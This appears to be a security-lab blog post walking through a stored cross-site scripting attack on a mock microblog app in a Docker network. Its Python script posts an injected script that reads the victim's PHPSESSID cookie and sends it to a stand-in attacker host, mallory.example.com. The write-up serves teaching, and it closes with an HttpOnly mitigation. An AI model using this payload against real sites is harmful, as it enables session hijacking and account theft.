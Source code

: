 ```yaml
---
layout: post
title: XSS
category: web_security
author: 'reo'
tags: python seclab docker javascript webapp
mathjax: 
---
```


This last exercise features the mock webapp to demonstrate a cross-site scripting (XSS) attack.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

Our network setup in this example is defined in our docker-compose file. Again,
alice and mallory are simply users of the microblog app

```yaml
version: '3'

services:
  microblog:
    image: # private image
    container_name: microblog
    ports:
      - "8080:80"
    networks:
      channel:
        ipv4_address: 10.0.0.2
        
  alice:
    image: # private image
    container_name: alice
    tty: true
    shm_size: '1gb'
    sysctls:
        - net.ipv6.conf.all.disable_ipv6=1
    networks:
      channel:
        ipv4_address: 10.0.0.3
        
  mallory:
      image: # private image
      container_name: mallory
      tty: true
      restart: always
      volumes:
          - .:/shared
      network_mode: service:microblog
      
  wireshark:
    image: # private image
    container_name: wireshark
    tty: true
    network_mode: service:microblog

networks:
  channel:
    driver: bridge
    ipam:
      config:
        - subnet: 10.0.0.0/24
```

we start the containers with `$ docker-compose up` as usual.

<br>

***

## Overview

***

The idea behind XSS is that an attacker can inject javascript on webpages which
may be executed when other users visit the where the injected script resides.

In this case, the main post page vulnerable to this sort of attack since the
backend does not check the content the users post and simply serves back
whatever is written (including html tags which may be interpretted differently
by the browser).

<!--MICROBLOG post with tags image-->

checking the developer console we can also read the name used for the session token

<!--dev console cooke name-->

<br>

***

## Scripting the Attack

***

We take advantage of the lack of sanitization in our exploit which has an image (since most browsers fetch
the source automatically) to send the user's cookie to a third party site possibly
storing it for Mallory to use in the future.

```python
import os, requests
from urllib.parse import urlencode

PROTOCOL = "http"
HOST = "10.0.0.2"
PORT = "80"
BASE = PROTOCOL + "://" + HOST + ":" + PORT

# Mallory's credentials
mallory = {
    'email': 'mallory@example.com',
    'password': 'pass4mallory'
}

jsinj = '<img id="TCBE"><script>\
var base = "http://mallory.example.com/set.php?token=";\
var end = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1");\
var malsrc = base + end;\
document.getElementById("TCBE").src=malsrc;\
</script>'

with requests.Session() as s:
     # sign-in as mallory (POST request)
     res = s.post(BASE + '/signin.php', data=mallory)
     # post a message (POST request)
     res = s.post(BASE + '/post.php', data={'msg': jsinj})
```

<br>

***

## Conclusion

***

XSS can be one of the most far reaching vulnerabilities to affect an app. Here, we targetted a cookie but
getting users to arbitrary javascript (at least what the browsers permit) can have serious repercussions.

As for protecting a session cookie, the HttpOnly flag will cause most browsers to not allow frontend javascript code
to read the corresponding cookie providing some level of protection.

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

